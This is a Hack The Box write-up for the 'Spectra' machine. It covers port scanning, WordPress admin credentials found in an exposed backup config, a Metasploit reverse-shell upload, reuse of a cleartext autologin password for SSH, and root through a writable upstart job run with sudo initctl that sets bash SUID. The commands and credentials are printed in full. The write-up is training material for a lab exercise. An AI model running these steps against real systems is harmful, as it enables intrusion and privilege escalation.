







---
search:
  exclude: true
---
# Spectra Writeup

## Introduction :

Spectra is an easy box released back in Febuary 2021.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
    [ 10.10.14.34/23 ] [ /dev/pts/21 ] [~/HTB/Spectra]
    → nmap -vvv -p- 10.129.186.23 --max-retries 0 -Pn --min-rate=500 2>/dev/null | grep Discovered
    Discovered open port 22/tcp on 10.129.186.23
    Discovered open port 3306/tcp on 10.129.186.23
    Discovered open port 80/tcp on 10.129.186.23
    
    [ 10.10.14.34/23 ] [ /dev/pts/21 ] [~/HTB/Spectra]
    → nmap -sCV -p 22,80,3306 10.129.186.23
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-09 13:20 CEST
    Nmap scan report for 10.129.186.23
    Host is up (0.45s latency).
    
    PORT     STATE SERVICE VERSION
    22/tcp   open  ssh     OpenSSH 8.1 (protocol 2.0)
    | ssh-hostkey:
    |_  4096 52:47:de:5c:37:4f:29:0e:8e:1d:88:6e:f9:23:4d:5a (RSA)
    80/tcp   open  http    nginx 1.17.4
    |_http-server-header: nginx/1.17.4
    |_http-title: Site doesn't have a title (text/html).
    3306/tcp open  mysql   MySQL (unauthorized)
    |_ssl-cert: ERROR: Script execution failed (use -d to debug)
    |_ssl-date: ERROR: Script execution failed (use -d to debug)
    |_sslv2: ERROR: Script execution failed (use -d to debug)
    |_tls-alpn: ERROR: Script execution failed (use -d to debug)
    |_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 50.62 seconds
    
    

## **Part 2 : Getting User Access**

Our nmap scan picked up port 80 so let's investigate it: 

We press **CTRL+U** to view the page sourcecode:

Which reveals us the **spectra.htb** hostname, so we add it to our hostfile:
    
    
    [ 10.10.14.34/23 ] [ /dev/pts/21 ] [~/HTB/Spectra]
    → sudo -i
    [sudo] password for nothing:
    ┌──(root💀nowhere)-[~]
    └─# echo '10.129.186.23 spectra.htb' >> /etc/hosts
    
    ┌──(root💀nowhere)-[~]
    └─# ping -c1 spectra.htb
    PING spectra.htb (10.129.186.23) 56(84) bytes of data.
    64 bytes from spectra.htb (10.129.186.23): icmp_seq=1 ttl=63 time=449 ms
    
    --- spectra.htb ping statistics ---
    1 packets transmitted, 1 received, 0% packet loss, time 0ms
    rtt min/avg/max/mdev = 449.174/449.174/449.174/0.000 ms
    
    ┌──(root💀nowhere)-[~]
    └─# exit
    
    

Once that's done, we can visit first visit **http://spectra.htb/main/index.php** :

So here we have a wordpress site, the other link gives a database connection error:

The error doesn't give us any info, therefore we move on to scanning the wordpress website:
    
    
    [ 10.10.14.34/23 ] [ /dev/pts/21 ] [~/HTB/Spectra]
    → wpscan --url http://spectra.htb/main/
    _______________________________________________________________
             __          _______   _____
             \ \        / /  __ \ / ____|
              \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
               \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
                \  /\  /  | |     ____) | (__| (_| | | | |
                 \/  \/   |_|    |_____/ \___|\__,_|_| |_|
    
             WordPress Security Scanner by the WPScan Team
                             Version 3.8.18
    
           @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
    _______________________________________________________________
    
    [i] Updating the Database ...
    [i] Update completed.
    
    [+] URL: http://spectra.htb/main/ [10.129.186.23]
    [+] Started: Mon Aug  9 13:48:33 2021
    
    Interesting Finding(s):
    
    [+] Headers
     | Interesting Entries:
     |  - Server: nginx/1.17.4
     |  - X-Powered-By: PHP/5.6.40
     | Found By: Headers (Passive Detection)
     | Confidence: 100%
    
    [+] XML-RPC seems to be enabled: http://spectra.htb/main/xmlrpc.php
     | Found By: Direct Access (Aggressive Detection)
     | Confidence: 100%
     | References:
     |  - http://codex.wordpress.org/XML-RPC_Pingback_API
     |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
     |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
     |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
     |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/
    
    [+] WordPress readme found: http://spectra.htb/main/readme.html
     | Found By: Direct Access (Aggressive Detection)
     | Confidence: 100%
    
    [+] The external WP-Cron seems to be enabled: http://spectra.htb/main/wp-cron.php
     | Found By: Direct Access (Aggressive Detection)
     | Confidence: 60%
     | References:
     |  - https://www.iplocation.net/defend-wordpress-from-ddos
     |  - https://github.com/wpscanteam/wpscan/issues/1299
    
    [+] WordPress version 5.4.2 identified (Insecure, released on 2020-06-10).
     | Found By: Rss Generator (Passive Detection)
     |  - http://spectra.htb/main/?feed=rss2, generator>https://wordpress.org/?v=5.4.2 generator>
     |  - http://spectra.htb/main/?feed=comments-rss2, generator>https://wordpress.org/?v=5.4.2 generator>
    
    [+] WordPress theme in use: twentytwenty
     | Location: http://spectra.htb/main/wp-content/themes/twentytwenty/
     | Last Updated: 2021-07-22T00:00:00.000Z
     | Readme: http://spectra.htb/main/wp-content/themes/twentytwenty/readme.txt
     | [!] The version is out of date, the latest version is 1.8
     | Style URL: http://spectra.htb/main/wp-content/themes/twentytwenty/style.css?ver=1.2
     | Style Name: Twenty Twenty
     | Style URI: https://wordpress.org/themes/twentytwenty/
     | Description: Our default theme for 2020 is designed to take full advantage of the flexibility of the block editor...
     | Author: the WordPress team
     | Author URI: https://wordpress.org/
     |
     | Found By: Css Style In Homepage (Passive Detection)
     |
     | Version: 1.2 (80% confidence)
     | Found By: Style (Passive Detection)
     |  - http://spectra.htb/main/wp-content/themes/twentytwenty/style.css?ver=1.2, Match: 'Version: 1.2'
    
    [+] Enumerating All Plugins (via Passive Methods)
    
    [i] No plugins Found.
    
    [+] Enumerating Config Backups (via Passive and Aggressive Methods)
     Checking Config Backups - Time: 00:00:15 
    [i] No Config Backups Found.
    
    [!] No WPScan API Token given, as a result vulnerability data has not been output.
    [!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register
    
    [+] Finished: Mon Aug  9 13:49:12 2021
    [+] Requests Done: 186
    [+] Cached Requests: 5
    [+] Data Sent: 46.09 KB
    [+] Data Received: 17.279 MB
    [+] Memory used: 220.246 MB
    [+] Elapsed time: 00:00:38
    
    

Nothing too interesting in here, the intended path was to dirbust the /testing/ directory or just browsing it since it has nginx's autoindexing enabled:

The interesting file here is **wp-config.php.save** :

Now here it looks like we have credentials to use. But where ? Let's first try **/main/wp-admin/** the default admin username being **administrator** :

 

And we are logged in as the administrator user! First thing we can do here is get a reverse shell by injecting the appearance php code of the wordpress website with a reverse shell:

However the website is way too unresponsive for us to be able to do that, so instead we're going to use metasploit:
    
    
    
    [ 10.10.14.34/23 ] [ /dev/pts/23 ] [~/HTB/Spectra]
    → msfconsole
                                                      ..-
                              ########                  #
                          #################            #
                       ######################         #
                      #########################      #
                    ############################
                   ##############################
                   ###############################
                  ###############################
                  ##############################
                                  #    ########   #
                     ##        ###        ####   ##
                                          ###   ###
                                        ####   ###
                   ####          ##########   ####
                   #######################   ####
                     ####################   ####
                      ##################  ####
                        ############      ##
                           ########        ###
                          #########        #####
                        ############      ######
                       ########      #########
                         #####       ########
                           ###       #########
                          ######    ############
                         #######################
                         #   #   ###  #   #   ##
                         ########################
                          ##     ##   ##     ##
                                https://metasploit.com
    
    
           =[ metasploit v6.0.53-dev                          ]
    + -- --=[ 2149 exploits - 1143 auxiliary - 366 post       ]
    + -- --=[ 592 payloads - 45 encoders - 10 nops            ]
    + -- --=[ 8 evasion                                       ]
    
    Metasploit tip: Start commands with a space to avoid saving
    them to history
    
    msf6 > use unix/webapp/wp_admin_shell_upload
    [*] No payload configured, defaulting to php/meterpreter/reverse_tcp
    msf6 exploit(unix/webapp/wp_admin_shell_upload) > show options
    
    Module options (exploit/unix/webapp/wp_admin_shell_upload):
    
       Name       Current Setting  Required  Description
       ----       ---------------  --------  -----------
       PASSWORD                    yes       The WordPress password to authenticate with
       Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
       RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:'
       RPORT      80               yes       The target port (TCP)
       SSL        false            no        Negotiate SSL/TLS for outgoing connections
       TARGETURI  /                yes       The base path to the wordpress application
       USERNAME                    yes       The WordPress username to authenticate with
       VHOST                       no        HTTP server virtual host
    
    
    Payload options (php/meterpreter/reverse_tcp):
    
       Name   Current Setting  Required  Description
       ----   ---------------  --------  -----------
       LHOST  10.66.66.2       yes       The listen address (an interface may be specified)
       LPORT  4444             yes       The listen port
    
    
    Exploit target:
    
       Id  Name
       --  ----
       0   WordPress
    
    
    msf6 exploit(unix/webapp/wp_admin_shell_upload) > set RHOSTS 10.129.186.23
    RHOSTS => 10.129.186.23
    msf6 exploit(unix/webapp/wp_admin_shell_upload) > set TARGETURI /main/
    TARGETURI => /main/
    msf6 exploit(unix/webapp/wp_admin_shell_upload) > set USERNAME administrator
    USERNAME => administrator
    msf6 exploit(unix/webapp/wp_admin_shell_upload) > set PASSWORD devteam01
    PASSWORD => devteam01
    msf6 exploit(unix/webapp/wp_admin_shell_upload) > set VHOST spectra.htb
    VHOST => spectra.htb
    
    msf6 exploit(unix/webapp/wp_admin_shell_upload) > set LHOST tun0
    LHOST => tun0
    
    msf6 exploit(unix/webapp/wp_admin_shell_upload) > exploit
    
    
    
    
    msf6 exploit(unix/webapp/wp_admin_shell_upload) > exploit
    
    [*] Started reverse TCP handler on 10.10.14.34:4444
    [*] Authenticating with WordPress using administrator:devteam01...
    [+] Authenticated with WordPress
    [*] Preparing payload...
    [*] Uploading payload...
    [*] Executing the payload at /main/wp-content/plugins/UtPzwuowWY/DRoQRuMWzs.php...
    [*] Sending stage (39282 bytes) to 10.129.186.23
    [+] Deleted DRoQRuMWzs.php
    [+] Deleted UtPzwuowWY.php
    [+] Deleted ../UtPzwuowWY
    [*] Meterpreter session 1 opened (10.10.14.34:4444 -> 10.129.186.23:40514) at 2021-08-09 15:07:29 +0200
    
    meterpreter > shell
    Process 11921 created.
    Channel 0 created.
    sh: 0: getcwd() failed: No such file or directory
    sh: 0: getcwd() failed: No such file or directory
    id
    uid=20155(nginx) gid=20156(nginx) groups=20156(nginx)
    
    echo $0
    bash
    

So here we managed to get a bash shell onto the box, however it is very limited, so we upgrade it like so:
    
    
    export PATH
    export PATH
    export TERM=xterm
    export TERM=xterm
    which python3
    which python3
    /usr/local/bin/python3
    python3 -c 'import pty;pty.spawn("/bin/bash")'
    python3 -c 'import pty;pty.spawn("/bin/bash")'
    nginx@spectra / $ cd ~
    cd ~
    nginx@spectra ~ $ ls -lash
    ls -lash
    total 32K
    4.0K drwxr-xr-x 5 nginx nginx 4.0K Feb  4  2021 .
    4.0K drwxr-xr-x 8 root  root  4.0K Feb  2  2021 ..
       0 lrwxrwxrwx 1 root  root     9 Feb  4  2021 .bash_history -> /dev/null
    4.0K -rw-r--r-- 1 nginx nginx  127 Dec 22  2020 .bash_logout
    4.0K -rw-r--r-- 1 nginx nginx  204 Dec 22  2020 .bash_profile
    4.0K -rw-r--r-- 1 nginx nginx  551 Dec 22  2020 .bashrc
    4.0K drwx------ 3 nginx nginx 4.0K Jan 15  2021 .pki
    4.0K drwx------ 2 nginx nginx 4.0K Jan 15  2021 .ssh
    4.0K drwxr-xr-x 2 nginx nginx 4.0K Jan 15  2021 log
    
    

Now from here we need to take a look at which user has the user flag:
    
    
    nginx@spectra ~ $ ls -lash /home
    ls -lash /home
    total 32K
    4.0K drwxr-xr-x  8 root    root    4.0K Feb  2  2021 .
    4.0K drwxr-xr-x 22 root    root    4.0K Feb  2  2021 ..
    4.0K drwx------  4 root    root    4.0K Jul 20  2020 .shadow
    4.0K drwxr-xr-x 20 chronos chronos 4.0K Aug  9 04:15 chronos
    4.0K drwxr-xr-x  5 katie   katie   4.0K Feb  2  2021 katie
    4.0K drwxr-xr-x  5 nginx   nginx   4.0K Feb  4  2021 nginx
    4.0K drwxr-x--t  4 root    root    4.0K Jul 20  2020 root
    4.0K drwxr-xr-x  4 root    root    4.0K Jul 20  2020 user
    nginx@spectra ~ $ ls -lash /home/katie
    ls -lash /home/katie
    total 36K
    4.0K drwxr-xr-x 5 katie katie 4.0K Feb  2  2021 .
    4.0K drwxr-xr-x 8 root  root  4.0K Feb  2  2021 ..
       0 lrwxrwxrwx 1 root  root     9 Feb  2  2021 .bash_history -> /dev/null
    4.0K -rw-r--r-- 1 katie katie  127 Dec 22  2020 .bash_logout
    4.0K -rw-r--r-- 1 katie katie  204 Dec 22  2020 .bash_profile
    4.0K -rw-r--r-- 1 katie katie  551 Dec 22  2020 .bashrc
    4.0K drwx------ 3 katie katie 4.0K Jan 15  2021 .pki
    4.0K drwx------ 2 katie katie 4.0K Feb 10 06:10 .ssh
    4.0K drwxr-xr-x 2 katie katie 4.0K Jan 15  2021 log
    4.0K -r-------- 1 katie katie   33 Feb  2  2021 user.txt
    nginx@spectra ~ $ cat /home/katie/user.txt
    cat /home/katie/user.txt
    cat: /home/katie/user.txt: Permission denied
    

Now if we take a look at **/etc/autologin/passwd** we see a cleartext password:
    
    
    nginx@spectra ~ $ cat /etc/autologin/passwd
    cat /etc/autologin/passwd
    SummerHereWeCome!!
    
    

So let's try to use it to login as the katie user:
    
    
    [ 10.10.14.34/23 ] [ /dev/pts/25 ] [~/HTB/Spectra]
    → ssh katie@spectra.htb
    The authenticity of host 'spectra.htb (10.129.186.23)' can't be established.
    RSA key fingerprint is SHA256:lr0h4CP6ugF2C5Yb0HuPxti8gsG+3UY5/wKjhnjGzLs.
    Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
    Warning: Permanently added 'spectra.htb,10.129.186.23' (RSA) to the list of known hosts.
    Password:
    katie@spectra ~ $ id
    uid=20156(katie) gid=20157(katie) groups=20157(katie),20158(developers)
    katie@spectra ~ $ cat user.txt
    e8XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    
    

And there we go! We managed to get the user flag.

## **Part 3 : Getting Root Access**

Now in order to get to the root flag we first need to enumerate the box. To do that we can use linpeas.sh:
    
    
    [term1]
    [ 10.10.14.34/23 ] [ /dev/pts/21 ] [~/HTB/Spectra]
    → ls -lash linpeas.sh
    336K -rwxr-xr-x 1 nothing nothing 334K Aug  9 15:52 linpeas.sh
    
    [ 10.10.14.34/23 ] [ /dev/pts/21 ] [~/HTB/Spectra]
    → python3 -m http.server 9090
    Serving HTTP on 0.0.0.0 port 9090 (http://0.0.0.0:9090/) ...
    
    [term2]
    katie@spectra ~ $ wget http://10.10.14.34:9090/linpeas.sh -O /tmp/linpeas.sh
    --2021-08-09 07:50:17--  http://10.10.14.34:9090/linpeas.sh
    Connecting to 10.10.14.34:9090... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 341863 (334K) [text/x-sh]
    Saving to: '/tmp/linpeas.sh'
    
    /tmp/linpeas.sh                                                 100%[======================================================================================================================================================>] 333.85K   143KB/s    in 2.3s
    
    2021-08-09 07:50:21 (143 KB/s) - '/tmp/linpeas.sh' saved [341863/341863]
    
    katie@spectra ~ $ chmod +x /tmp/linpeas.sh
    katie@spectra ~ $ /tmp/linpeas.sh
    -bash: /tmp/linpeas.sh: Permission denied
    
    

However there's a problem since we cannot run it, therefore we check it manually, our first reflex is to check **sudo -l** :
    
    
    katie@spectra ~ $ sudo -l
    User katie may run the following commands on spectra:
        (ALL) SETENV: NOPASSWD: /sbin/initctl
    
    

Here it looks like we can run /sbin/initctl without any password, so let's look for a gtfobin:

However there's no gtfobin for it.
    
    
    katie@spectra ~ $ sudo initctl
    initctl: missing command
    Try `initctl --help' for more information.
    katie@spectra ~ $ sudo initctl --help
    Usage: initctl [OPTION]... COMMAND [OPTION]... [ARG]...
    
    Options:
          --session               use D-Bus session bus to connect to init daemon (for testing)
          --system                use D-Bus system bus to connect to init daemon
          --dest=NAME             destination well-known name on D-Bus bus
      -q, --quiet                 reduce output to errors only
      -v, --verbose               increase output to include informational messages
          --help                  display this help and exit
          --version               output version information and exit
    
    For a list of commands, try `initctl help'.
    
    

Here we can see that this binary can be used to communicate and interact with the upstart init daemon, processes managed by init are defined by files in the **/etc/init** directory. So we can create a **privesc.conf** file in /etc/init, however the directory itself is owned by the root user, therefore we need to access it with another group, the **developers** group:
    
    
    katie@spectra /etc/init $ id
    uid=20156(katie) gid=20157(katie) groups=20157(katie),20158(developers)
    katie@spectra /etc/init $ ls -lash | grep developers
    4.0K -rw-rw----  1 root developers  478 Jun 29  2020 test.conf
    4.0K -rw-rw----  1 root developers  478 Jun 29  2020 test1.conf
    4.0K -rw-rw----  1 root developers  478 Jun 29  2020 test10.conf
    4.0K -rw-rw----  1 root developers  478 Jun 29  2020 test2.conf
    4.0K -rw-rw----  1 root developers  478 Jun 29  2020 test3.conf
    4.0K -rw-rw----  1 root developers  478 Jun 29  2020 test4.conf
    4.0K -rw-rw----  1 root developers  478 Jun 29  2020 test5.conf
    4.0K -rw-rw----  1 root developers  478 Jun 29  2020 test6.conf
    4.0K -rw-rw----  1 root developers  478 Jun 29  2020 test7.conf
    4.0K -rw-rw----  1 root developers  478 Jun 29  2020 test8.conf
    4.0K -rw-rw----  1 root developers  478 Jun 29  2020 test9.conf
    
    

So since we can only access these .conf files we're going to have our privesc file into **test.conf** so let's edit it to change permissions on the bash binary:
    
    
    katie@spectra /etc/init $ vim test.conf
    katie@spectra /etc/init $ cat test.conf
    script
    chmod +s /bin/bash
    end script
    katie@spectra /etc/init $ sudo /sbin/initctl start test
    test start/running, process 21674
    katie@spectra /etc/init $ /bin/bash -p
    bash-4.3# id
    uid=20156(katie) gid=20157(katie) euid=0(root) egid=0(root) groups=0(root),20157(katie),20158(developers)
    bash-4.3# cat /root/root.txt
    d4XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    
    

And that's it! We managed to privesc to the root user and get the root flag.

## **Conclusion**

Here we can see the progress graph :

